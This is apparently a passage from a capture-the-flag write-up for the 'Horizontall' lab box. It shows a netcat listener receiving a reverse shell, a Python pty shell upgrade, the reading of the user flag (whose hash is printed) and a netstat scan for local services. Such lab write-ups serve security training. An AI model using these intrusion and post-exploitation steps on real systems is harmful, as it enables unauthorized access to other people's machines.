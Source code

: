 
#### Initial foothold
```
❯ nc -lvnp 3333

Connection from 10.10.11.105:48162
ls

api
build
config
extensions
favicon.ico
node_modules
package.json
package-lock.json
public
README.md

python -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ 
```


#### User flag
```
strapi@horizontall:~/myapi$ cd /home
cd /home

strapi@horizontall:/home$ ls
ls
developer

strapi@horizontall:/home$ cd developer
cd developer

strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt

strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
0325789ed8df79cde2679ecc8f10d209
```

After looking around the system and falling into rabbit-holes for like 30 minutes I found an open port on the local system.

```
strapi@horizontall:~$ netstat -ln
netstat -ln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
```
